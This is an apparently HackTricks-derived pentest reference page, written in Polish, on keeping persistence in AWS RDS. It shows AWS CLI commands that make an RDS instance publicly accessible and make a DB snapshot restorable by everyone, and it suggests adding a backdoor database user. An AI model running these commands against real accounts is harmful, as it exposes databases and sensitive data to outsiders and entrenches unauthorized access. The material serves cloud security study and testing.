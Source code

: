 # AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Aby uzyskać więcej informacji, sprawdź:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Uczyń instancję publicznie dostępną: `rds:ModifyDBInstance`

Atakujący z tym uprawnieniem może **zmodyfikować istniejącą instancję RDS, aby umożliwić publiczną dostępność**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Create an admin user inside the DB

Atakujący mógłby po prostu **utworzyć użytkownika w bazie danych**, więc nawet jeśli hasło głównego użytkownika zostanie zmienione, **nie traci dostępu** do bazy danych.

### Make snapshot public
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
